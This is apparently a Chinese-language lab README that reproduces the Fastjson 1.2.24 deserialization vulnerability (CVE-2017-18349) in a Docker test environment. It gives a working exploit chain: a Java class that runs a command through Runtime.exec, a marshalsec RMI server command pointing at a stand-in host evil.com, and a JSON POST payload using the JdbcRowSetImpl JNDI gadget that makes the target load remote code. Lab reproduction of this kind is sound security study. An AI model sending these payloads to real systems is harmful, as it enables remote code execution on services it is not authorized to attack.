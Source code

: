 # Fastjson 1.2.24 反序列化导致任意命令执行漏洞（CVE-2017-18349）

Fastjson 是阿里巴巴开发的一款 JSON 解析器。在解析 JSON 的过程中，它支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，攻击者可以构造出恶意利用链。

参考链接：

- <https://www.freebuf.com/vuls/208339.html>
- <http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/>

## 环境搭建

执行如下命令启动测试服务器，其使用 Fastjson 1.2.24 作为默认 JSON 解析器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 即可看到 JSON 格式的输出。

我们可以通过向该地址发送 POST 请求来更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 漏洞复现

由于目标环境是 Java 8u102，没有 `com.sun.jndi.rmi.object.trustURLCodebase` 的限制，我们可以使用 `com.sun.rowset.JdbcRowSetImpl` 的利用链，通过 JNDI 注入来执行命令。

首先编译并上传命令执行代码，如 `http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后使用 [marshalsec](https://github.com/mbechler/marshalsec) 项目启动一个 RMI 服务器，监听 9999 端口，并指定加载远程类 `TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向目标服务器发送包含 RMI 地址的 Payload：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

如下图所示，命令 `touch /tmp/success` 已成功执行：

![](1.png)
